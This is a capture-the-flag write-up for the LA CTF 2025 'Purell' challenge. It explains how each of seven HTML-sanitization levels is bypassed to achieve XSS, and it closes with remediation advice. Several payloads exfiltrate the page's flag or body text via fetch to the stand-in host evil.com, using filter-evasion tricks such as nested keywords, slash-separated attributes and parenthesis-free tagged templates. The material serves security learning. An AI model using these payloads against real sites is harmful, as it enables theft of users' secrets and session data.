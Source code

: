 
## Context

Inspired by the sanitization product brand of the same name, *Purell* is a website created for LA CTF 2025 that offers multiple levels of HTML sanitization with the goal of avoiding cross-site-scripting (XSS) from user input.

Levels range from no sanitization at all, to primitive JavaScript detection and blocking, to banning HTML altogether. The code performing these checks runs on a Node.js backend powered by Express. User input is provided to the server via GET request, and the sanitized code is then displayed on the page sent back in the server's response.

Although this website was built intentionally vulnerable, the techniques that can be used to exploit it are also relevant in more real-world scenarios, with XSS being a commonly exploited class of vulnerabilities on the web.

## Vulnerability

In spite of its presented goal being to showcase its cross-site-scripting mitigation capabilities, all 7 levels of this website are vulnerable to cross-site-scripting. Specifically, it is possible to craft a URL for each level that when rendered will result in arbitrary code being executed in the visitor's browser. This is relevant in this Capture-The-Flag context as it makes it possible to steal a secret that is only shown to the administrator.

## Level-by-level analysis and exploitation
### Level 0

This level, meant as an introduction, features no protection against XSS. All HTML passed in the URL will be injected into the page as-is. One way to take advantage of this is to simply inject a script HTML tag uses the `document.querySelector` function to retrieve the secret's container and send it to an attacker-controlled server using `fetch` as follows:
```
<script>fetch('https://evil.com/' + document.querySelector('.flag').innerText)</script>
```

In URL form, this code looks like this:

```
${page_base_url}?html=<script>alert('https%3A%2F%2Fevil.com%2F'+%2B+document.querySelector('.flag').innerText)<%2Fscript>
```

If the attacker can get the website's administrator to visit this URL, the secret will be sent to the attacker's website as a GET request.

### Level 1

Level 1 features the first real attempt at preventing JavaScript injection. If the input html contains the substring `script` or has a length greater than 150, the input is rejected completely. Note that the substring identification is implemented using JavaScript's `includes` string method.

There are multiple ways to circumvent this protection. For one, the `script` tag is far from the only way to execute JavaScript in HTML, which will become relevant later. In this case however, the simplest attack is simply to repeat the same payload with both occurences of `script` being capitalized

```
<SCRIPT>fetch('https://evil.com/' + document.querySelector('.flag').innerText)</SCRIPT>
```

This bypasses the `includes` check and also fits in the 150 characters limit, while remaining functional as HTML is not case sensitive.

### Level 2

Level 2 features the same checks as level 1, with an additional `includes` check that blocks all `on` substrings. This is probably intended to prevent the use of images and similar HTML elements to execute JavaScript using event handlers like `onload`, but it can be circumvented using the exact same payload as Level 1.

### Level 3

Level 3 relies on JavaScript's `replaceAll` string method to replace all occurrences of `script` and `on` with the empty string (i.e. removing them from the input). It also converts the entire input to lowercase before executing the replacement, preventing our previous payload from slipping through.

We can use this replacement to our advantage by inserting either of these substrings into our `script` tags such that the original code will be produced upon replacement. For example, replacing `<script>` with `<scrionpt>` will cause the sanitizer to removed the extra `on` substring within the tag, converting it back to `<script>`. Since the replacement is performed only once, the result will be our original payload, though it will be in lowercase. This lowercase conversion is a problem for the attacker, as JavaScript identifiers are case sensitive, so replacing `querySelector` with `queryselector` will break the payload.

One way to get around the lowercase constraint is to load the actual payload at runtime using only lowercase methods and execute it using the `eval` function. Since we have control of the URL, we can append the payload to the URL as a query parameter and execute it as follows:

```
<scrionpt>eval(locatioonn.search.split('&a=')[1])</scrionpt>
```

This will execute any JavaScript code passed in the `a` query parameter in the URL. Note that we have to use the same trick with `on` to ensure `location` does not get changed to `locati`. The full malicious URL looks like this:

```
${base_url}?html=<scrionpt>eval(locatioonn.search.split('%26a%3D')[1])<%2Fscrionpt>&a=fetch(`https://evil.com/${document.body.innerText}`)
```

Note that this will send the body's entire text content to the server, which avoids having to put quotes in the payload which causes trouble due to URL encoding.

### Level 4

This level features the same checks as the previous, with an additional replacement of all '>' characters with the empty string. This prevents us from closing the script tag, but we can take advantage of the "forgive" nature of modern browsers by instead wrapping the JavaScript code in an image's `onload` handler, and just never closing the image tag.

```
<img oonnload="eval(locatioonn.search.split('&a=')[1])" src="https://picsum.photos/200/300" 
```

As it turns out, most browsers will still display the image and execute the `onload` handler, even if this is not valid HTML.

### Level 5

Level 5 differs from level 4 with the addition of a replacement of all spacing characters (regex `\s`) with the empty string. This means our previous payload would not work anymore as the `img` tag name would merge with its attributes. However, we can use a little known HTML trick, which is that tag names and attributes can be separated by forward slashes (`/`) instead of spaces as follows:

```
<img/oonnload="eval(locatioonn.search.split('&a=')[1])"/src="https://picsum.photos/200/300" 
```

This will treated by the browser identically to our last payload, without containing any spaces.

## Level 6

Level 6 adds difficulty by also replacing opening and closing parentheses with the empty string, making it tricky to use `eval` and `split`. Luckily, JavaScript is a very interesting language with very interesting hidden features, one of which being  [tag functions](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals#tagged_templates). This feature allows us to call functions without using parentheses. For example:

```
myFunc`${name} is ${age} years old`
```

is equivalent to

```
myFunc([ "", " is ", " years old" ], name, age)
```

The problem is that the first parameter will always be an array. This is not a problem for `split`, which works with an array, but doesn't work with `eval`. However, every JavaScript function also has its own `call` method that takes an array of parameters as input, with the first element being the self-reference and all other elements being the parameters, in order.

This way, we can turn:

```
eval(locatioonn.search.split('&a=')[1])
```

into 

```
eval.call`${location.search.split`&a=`[1]}`
```

which is 100% parenthesis free! 

Substituting this back into our payload, we get

```
<img/oonnload="eval.call`${locatioonn.search.split`&a=`[1]}`"/src="https://picsum.photos/200/300" 
```

## Conclusion & Remediation

Web languages like HTML and JavaScript have very complex implementations, full of lesser-known features and edge cases. Most developers are not going to be able to reliably predict all of the many ways by which an attacker can slip an XSS payload through an input sanitization function. For this reason, the best way to prevent these attacks is to redesign the website in a way that does not require user-submitted HTML to be injected into the page. Instead, the developer should completely escape any HTML with the use of library functions, or ideally by using the `.innerText` field to set an element's content as text, not HTML.

A common reason for allowing HTML is to make custom formatting possible, but this can also be achieved with the use of other markdown languages like *Markdown* or *BBCode* which do not allow script execution. 